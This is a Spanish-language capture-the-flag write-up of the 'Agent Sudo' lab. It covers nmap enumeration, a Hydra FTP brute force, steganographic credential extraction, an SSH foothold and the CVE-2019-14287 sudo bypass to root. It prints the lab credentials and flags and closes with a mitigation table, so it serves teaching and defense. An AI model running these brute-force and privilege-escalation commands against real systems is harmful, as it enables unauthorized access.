# Agent Sudo CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 7.6p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.29 Ubuntu |

**Hallazgos:**
- FTP → vsftpd 3.0.3 activo
- HTTP → Web con sistema de agentes identificados por letras del alfabeto
- SSH → Posible acceso con credenciales obtenidas posteriormente



---

### Fase 1.2 — Enumeración Web (Página Principal)

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
firefox http://<TARGET_IP>
```

**Hallazgos:**
- Mensaje firmado por **Agent R**: *"Use your own codename as user-agent to access this site"*
- Sistema de agentes identificados por letras del alfabeto confirmado



---

### Fase 1.3 — User-Agent Enumeration (Agent C)

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
curl -A 'C' -L http://<TARGET_IP>
```

**Hallazgos:**
- Agent C = **chris**
- Mensaje: *"Change your god damn password, is weak"* → contraseña débil confirmada → candidato a fuerza bruta FTP



---

### Fase 1.4 — Fuerza Bruta FTP con Hydra

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
hydra -l chris -P /usr/share/wordlists/metasploit/unix_passwords.txt ftp://<TARGET_IP> -t 4
```

**Hallazgos:**
- **Usuario:** `chris`
- **Password:** `crystal`



---

### Fase 1.5 — Acceso FTP y Descarga de Archivos

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ftp <TARGET_IP>
# Usuario: chris
# Password: crystal
ls
get cute-alien.jpg
get cutie.png
get To_agentJ.txt
exit
cat To_agentJ.txt
```

**Hallazgos:**
- `To_agentJ.txt` → *"Your login password is somehow stored in the fake picture"* → contraseña oculta en imagen via steganografía
- `cutie.png` y `cute-alien.jpg` → candidatas a análisis esteganográfico



---

## Fase 2 — Extracción Esteganográfica

### Fase 2.1 — Extraer ZIP oculto de cutie.png con binwalk

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
binwalk -e cutie.png
ls _cutie.png.extracted/
```

**Hallazgos:**
- ZIP encriptado: `8702.zip` → contiene `To_agentR.txt`
- Necesita contraseña → se procede con zip2john



---

### Fase 2.2 — Crackear ZIP con zip2john + john

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
cd _cutie.png.extracted/
zip2john 8702.zip > zip_hash.txt
john zip_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Hallazgos:**
- **Password ZIP:** `alien`



---

### Fase 2.3 — Descomprimir ZIP y leer To_agentR.txt

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
unzip 8702.zip
# Password: alien
cat To_agentR.txt
```

**Hallazgos:**
- Mensaje de Agent C a Agent J: *"Your login password is somehow stored in the fake picture"*
- Passphrase para steghide: **`Area51`**



---

### Fase 2.4 — Extraer credenciales de cute-alien.jpg con steghide

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
cd ~
steghide extract -sf cute-alien.jpg -p Area51
cat message.txt
```

**Hallazgos:**
- **Usuario:** `james`
- **Password:** `hackerrules!`



---

## Fase 3 — Foothold

### Fase 3.1 — SSH como james + User Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ssh james@<TARGET_IP>
# Password: hackerrules!
whoami
cat user_flag.txt
```

**User Flag:**
```
b03d975e8c92a7c04146cfa7a5a313c7
```



---

## Fase 4 — Escalada de Privilegios

### Fase 4.1 — Identificación del Vector PrivEsc (sudo -l)

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como james]
sudo -l
```

**Hallazgo crítico:**

| Usuario | Privilegio |
|---------|------------|
| james | **(ALL, !root) /bin/bash** 🔴 → bypass via CVE-2019-14287 |

- `!root` impide ejecución directa como root
- **CVE-2019-14287** — sudo < 1.8.28 permite bypass con UID `-1`



---

### Fase 4.2 — Exploit CVE-2019-14287 → Root Shell

**Comandos ejecutados:**
```bash
# [MÁQUINA OBJETIVO - como james]
sudo -u#-1 /bin/bash
whoami
```

**Hallazgos:**
- Shell obtenida como **root** mediante bypass de sudo con UID `-1`



---

### Fase 4.3 — Root Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA OBJETIVO - como ROOT]
cat /root/root.txt
```

**Root Flag:**
```
b53a02f55b57d4439e3341834d70c062
```


---

## V. Mitigation

| Vulnerabilidad | Recomendación |
|----------------|---------------|
| Contraseña débil FTP (chris:crystal) | Implementar política de contraseñas fuertes y rotación periódica |
| Credenciales almacenadas en imágenes (steganografía) | Nunca almacenar credenciales en archivos multimedia |
| ZIP con passphrase débil (alien) | Usar cifrado robusto con contraseñas de alta entropía |
| CVE-2019-14287 — sudo < 1.8.28 | Actualizar sudo a versión ≥ 1.8.28 inmediatamente |
| FTP sin cifrado | Migrar a SFTP o FTPS |
